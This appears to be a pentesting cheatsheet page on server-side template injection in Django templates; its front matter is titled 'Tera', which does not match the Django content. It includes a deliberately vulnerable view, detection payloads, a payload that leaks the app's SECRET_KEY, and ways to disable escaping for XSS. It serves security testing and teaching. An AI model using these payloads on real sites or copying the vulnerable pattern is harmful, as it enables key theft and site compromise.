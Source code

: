 ```yaml
---
title: "Tera"
description: "Cheatsheet on Tera"
lead: "Cheatsheet on Tera"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "ssti"
weight: 620
toc: true
---
```


## Django Template Engine (DTL)

Django ships built-in backends for its own template system, creatively called the [Django template language (DTL)](https://docs.djangoproject.com/en/5.0/topics/templates/), and for the popular alternative `Jinja2`.

## Usage

Basic example of DTL:

```html
My first name is {{ first_name }}. My last name is {{ last_name }}.
{{ my_dict.key }}
{{ my_object.attribute }}
{{ my_list.0 }}
```

Usage of DTL in a Django application:

```python
from django.template import engines

django_engine = engines["django"]
template = django_engine.from_string("Hello {{ name }}!")
```

Example of vulnerable code:

```python
from django.http import HttpResponse
from django.template import engines

def index(request):
  message = request.GET.get("message")

  engine = engines["django"]
  template = engine.from_string("<html><body>" + message + "</body></html>")
  return HttpResponse(template.render({}, request))
```

## Detection

DTL vs Jinja2:

| Payload            | Jinja2       | Django Templates         |
| ------------------ | ------------ | ------------------------ |
| `{% csrf_token %}` | Causes error | Anti-CSRF token HTML tag |
| `{{ 7*7 }}`        | 49           | Causes error             |

## Built-in

### Debug

```js
{% debug %}
```

### CSRF

```js
{% csrf_token %}
```

### Secret Key Leak

When `messages` is present in the template context and `CookieStorage` is being used we can walk through attributes of `messages` to access app's `SECRET_KEY`:

```js
{{ messages.storages.0.signer.key }}
```

### Filters

List of all filters: [Built-in filter reference](https://docs.djangoproject.com/en/5.0/ref/templates/builtins/#built-in-filter-reference)

### XSS

- `safe`: Marks a string as not requiring further HTML escaping prior to output. When autoescaping is off, this filter has no effect.
- `escape`: Escapes a string's HTML (HTML entity).
- `force_escape`: Applies HTML escaping to a string.

```html
{% autoescape off %}
    {{ message }}
{% endautoescape %}

{{ message|safe }}

{{ some_list|safeseq|join:", " }}
```

## References

- [Django template language (DTL)](https://docs.djangoproject.com/en/5.0/topics/templates/)
- [[PDF] Django templates - Server-Side Template Injection](https://www.lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)